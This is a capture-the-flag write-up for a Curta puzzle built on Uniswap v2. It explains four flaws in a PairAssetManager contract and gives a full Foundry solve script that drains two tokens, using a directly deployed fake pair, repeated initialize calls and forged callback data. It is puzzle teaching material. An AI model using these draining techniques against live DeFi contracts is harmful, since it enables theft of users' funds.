 ```yaml
---
author: '0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149'
contributors: ['0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149']
adapted_from: 'https://github.com/chainlight-io/publications/tree/417d1475d3b7057db6e0da2cbaba6104576f3d20/ctf-writeups/curta-cup/PairAssetManager/writeup.md'
---
```


## Overview

This challenge questions your understanding of [Uniswap v2](https://docs.uniswap.org/contracts/v2/overview). By solving this puzzle, you will learn about the operational logic of Uniswap v2's [factory](https://docs.uniswap.org/contracts/v2/concepts/protocol-overview/smart-contracts#factory) and [constant product market maker (CPMM)](https://docs.uniswap.org/contracts/v2/concepts/protocol-overview/how-uniswap-works).

## Solving the puzzle

The puzzle's goal is to drain both `curtaUSD` and `curtaStUSD` from `keeper`, which is responsible for pricing the pair. The puzzle contains the following vulnerabilities you can exploit to drain the tokens:

1. In `onlyUniswapV2Pair`, verification with `codeHash` can be bypassed by deploying `UniswapV2Pair` directly.
2. In `uniswapV2Call`, if `amountIn` is greater than `maxAmountIn`, it may not revert.
3. In `uniswapV2Call`, the token address passed as `data` may not be the same as the token of the called pair.
4. [Optional] If a token different from the initial token specified by `_createUser` in `_deposit` is deposited, the share of the initial tokens pair will be increased.

In addition to the minimum requirement, vulnerability #4 enables stealing `1 ether - MINIMUM_LIQUIDITY` additional `curtaUSD` and `curtaStUSD` from `owner`.

We can exploit these vulnerabilities as follows:

1. Create a fake token and directly deploy `UniswapV2Pair` (i.e. without the factory).
2. `mint` and `sync` the fake tokens with the fake pair and scale them so that `PairAssetManager._getAmountIn` of one token results in a large value.
3. Call `initialize` to change the tokens to `curtaUSD` and `curtaStUSD`. In the usual case where the pair is deployed through Uniswap's factory, `initialize` can only be called once to create the pair, but since we deployed it directly, we can call `initialize` multiple times.
4. Call `swap` on the `UniswapV2Pair` we deployed, and specify `to` as `PairAssetManager` and `data` as the token addresses to steal + the number of tokens `keeper` has. We can drain the tokens with the large value returned by `_getAmountIn` from `keeper`.
5. `burn` all the fake tokens held by the fake pair and call `sync` to set the reserve to zero.
6. Call `initialize` to replace the token with the fake token again, and `mint` and `sync` the other token so that its `PairAssetManager._getAmountIn` increases.
7. Repeat steps 4 and 5, and drain all tokens via `skim`.

### Solve script

Check out our solve test below for more details.

```sol fileName="Solve.t.sol"
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Curta.sol";

contract SolveTest is Test {
    Puzzle public curta;
    Challenge public chall;
    UniswapV2Pair public fakePair;
    FakeToken public fakeToken1;
    FakeToken public fakeToken2;

    function setUp() public {
        curta = new Puzzle();
        curta.deploy();
    }

    function testSolve() public {
        chall = curta.factories(curta.generate(address(this)));

        fakePair = new UniswapV2Pair();
        fakeToken1 = new FakeToken();
        fakeToken2 = new FakeToken();

        fakeToken1.mint(address(fakePair), 10000 ether);
        fakeToken2.mint(address(fakePair), 1 ether);

        fakePair.initialize(address(fakeToken1), address(fakeToken2));
        fakePair.sync();
        fakeToken2.mint(address(fakePair), type(uint64).max);
        fakePair.swap(
            0,
            1 ether - 1,
            address(chall.assetManager()),
            abi.encode(
                chall.curtaUSD(),
                chall.curtaStUSD(),
                IERC20(chall.curtaUSD()).balanceOf(address(chall.keeper())),
                IERC20(chall.curtaStUSD()).balanceOf(address(chall.keeper()))
            )
        );

        fakeToken1.burn(address(fakePair), fakeToken1.balanceOf(address(fakePair)));
        fakeToken2.burn(address(fakePair), fakeToken2.balanceOf(address(fakePair)));
        fakePair.sync();

        fakeToken1.mint(address(fakePair), 1 ether);
        fakeToken2.mint(address(fakePair), 10000 ether);
        fakePair.sync();

        fakeToken1.mint(address(fakePair), type(uint64).max);
        fakePair.swap(
            1 ether - 1,
            0,
            address(chall.assetManager()),
            abi.encode(
                chall.curtaUSD(),
                chall.curtaStUSD(),
                IERC20(chall.curtaUSD()).balanceOf(address(chall.keeper())),
                IERC20(chall.curtaStUSD()).balanceOf(address(chall.keeper()))
            )
        );

        fakeToken1.burn(address(fakePair), fakeToken1.balanceOf(address(fakePair)));
        fakeToken2.burn(address(fakePair), fakeToken2.balanceOf(address(fakePair)));
        fakePair.sync();

        fakePair.initialize(address(chall.curtaUSD()), address(chall.curtaStUSD()));
        fakePair.skim(address(this));

        IERC20(chall.curtaUSD()).transfer(
            address(uint160(curta.generate(address(this)))), IERC20(chall.curtaUSD()).balanceOf(address(this))
        );
        IERC20(chall.curtaStUSD()).transfer(
            address(uint160(curta.generate(address(this)))), IERC20(chall.curtaStUSD()).balanceOf(address(this))
        );

        curta.verify(curta.generate(address(this)), uint256(0));
    }

    function feeTo() external view returns (address) {
        return address(0);
    }
}

contract FakeToken is ERC20 {
    constructor() ERC20("Fake", "fake") {}

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }

    function burn(address to, uint256 amount) external {
        _burn(to, amount);
    }
}
```
